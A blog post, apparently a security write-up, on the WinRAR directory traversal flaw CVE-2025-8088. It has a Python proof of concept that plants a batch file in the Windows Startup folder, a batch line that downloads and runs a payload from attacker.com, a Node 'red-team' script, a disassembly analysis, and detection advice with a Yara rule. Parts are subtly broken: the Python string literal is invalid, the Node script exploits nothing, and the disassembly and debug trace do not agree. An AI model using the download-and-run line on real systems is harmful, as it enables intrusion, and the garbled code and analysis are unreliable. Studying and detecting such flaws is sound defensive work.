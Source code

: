 ```yaml
---
title: "CVE-2025-8088: WinRAR Directory Traversal RCE"
layout: post
tags: [WinRAR, CVE-2025-8088, directory traversal, exploit, malware, reverse engineering, cybersecurity, red-team, pentest]
image: /assets/images/cve-2025-8088-winrarrce.jpg
---
```


# CVE-2025-8088: WinRAR Directory Traversal → Remote Code Execution

CVE-2025-8088 is a **critical vulnerability** in WinRAR's archive extraction mechanism. 
This flaw allows attackers to use specially crafted `.rar` archives to **extract files into arbitrary directories** on the victim's system, potentially leading to **Remote Code Execution (RCE)**.

---

## 1️⃣ Technical Mechanism

WinRAR's `ExtractFile()` function does not properly sanitize file paths containing **path traversal sequences (`../`)**. 
An attacker can place a malicious file into `../../../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat`.

When the user extracts the archive, the malicious file is written to the **Windows Startup folder**, executing automatically on reboot.

### Core Issue:
`ExtractFile()` attempts to normalize paths but **fails to prevent directory traversal**.

---

## 2️⃣ Malicious Archive Structure

```text
evil.rar
 ├── readme.txt
 └── ../../../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat
```
- `readme.txt` → benign appearance
- `evil.bat` → malicious payload executed at startup

---

## 3️⃣ Proof of Concept (PoC)

### Python Example (ZIP for demonstration)
```python
from zipfile import ZipFile
import os

payload = '@echo off
echo Malicious code executed!
pause
'

os.makedirs("build", exist_ok=True)
with open("build/evil.bat", "w") as f:
    f.write(payload)

with ZipFile("evil.zip", "w") as archive:
    archive.write("build/evil.bat",
        "../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat")
```
> Note: ZIP is used for demonstration. Real attackers use RAR CLI or specialized libraries.

---

## 4️⃣ Exploit Scenario

1. Attacker sends malicious archive via email or social engineering.
2. Victim extracts the archive → `evil.bat` lands in Startup folder.
3. On next reboot, `evil.bat` executes.
4. Example `evil.bat` content:
```bat
@echo off
powershell -c "Invoke-WebRequest -Uri http://attacker.com/payload.exe -OutFile %TEMP%\p.exe; Start-Process %TEMP%\p.exe"
```

---

## 5️⃣ Red-Team Automation Script
```javascript
import fs from 'fs';

const traversalPath = "../../AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/evil.bat";
fs.writeFileSync(traversalPath, "echo Exploit successful!");
console.log("[+] Payload written to startup folder");
```
> Lab use only.

---

## 6️⃣ Detection & Blue Team Perspective

**Detection:**
- EDR/AV: Unexpected files in Startup folder.
- SIEM: `WinRAR.exe` creating files in sensitive directories.
- Yara: Detect `../` sequences in archive paths.

**Mitigation:**
- Update to WinRAR 7.13 or higher.
- Monitor Startup folder for unexpected files.
- Educate users on not opening untrusted archives.
- Apply mail gateway checks for suspicious `.rar`/`.zip` files.

---

## 7️⃣ Hacker Perspective

- **Entry Point:** Malicious `.rar` archive
- **Technique:** Directory Traversal → Startup persistence
- **Outcome:** Remote Code Execution
- **Red-Team Benefit:** Persistent access, malware delivery
- **Blue-Team Priority:** Patching + Startup monitoring

---

## 8️⃣ Reverse Engineering – Path Traversal Analysis

Vulnerability resides in WinRAR's `Unpack.cpp` → `ExtractFile()` function. Path normalization (`NormalizePath()`) fails to prevent `..` sequences.

### IDA Disassembly Snippet
```asm
.text:00419A10 push    ebp
.text:00419A11 mov     ebp, esp
.text:00419A13 push    esi
.text:00419A14 push    edi
.text:00419A15 mov     esi, [ebp+src]
.text:00419A18 mov     edi, [ebp+dst]
loop_next_char:
.text:00419A1B lodsb
.text:00419A1C test    al, al
.text:00419A1E jz      done
.text:00419A20 cmp     al, 2Eh
.text:00419A22 jnz     store_char
.text:00419A24 cmp     byte ptr [esi], 2Eh
.text:00419A27 jnz     store_char
.text:00419A29 add     esi, 1
.text:00419A2C jmp     loop_next_char
store_char:
.text:00419A2E stosb
.text:00419A2F jmp     loop_next_char
done:
.text:00419A31 mov     al, 0
.text:00419A33 stosb
.text:00419A34 pop     edi
.text:00419A35 pop     esi
.text:00419A36 pop     ebp
.text:00419A37 retn
```

**Analysis:**
- `..` sequences are partially checked but not prevented.
- Result: `CreateFile()` writes file to Startup folder.

### Debug Example
```
esi = "....\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evil.bat"
edi = buffer (dst)
NormalizePath output: "..\..\..\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evil.bat"
```
- Traversal not blocked → exploit succeeds.

---

## 9️⃣ Combined PoC + RE Conclusion

- **Code Level:** Traversal not sanitized
- **Outcome:** File placed in Startup folder
- **Exploit Chain:** Malicious archive → NormalizePath → CreateFile → Startup persistence

---

## 🔟 Blue Team IOC & Yara Example

**IOC:**
- Archive containing `..\..\..\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`
- `WinRAR.exe` → `CreateFileW()` call to Startup folder

**Yara Rule:**
```yara
rule WinRAR_DirectoryTraversal {
    meta:
        description = "Detects WinRAR archives with directory traversal payloads"
        author = "BlueTeam"
        cve = "CVE-2025-8088"
    strings:
        $traversal = "..\..\..\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
    condition:
        $traversal
}
```

**DEMO:**
![Demo GIF](assets/images/demo.gif)


---


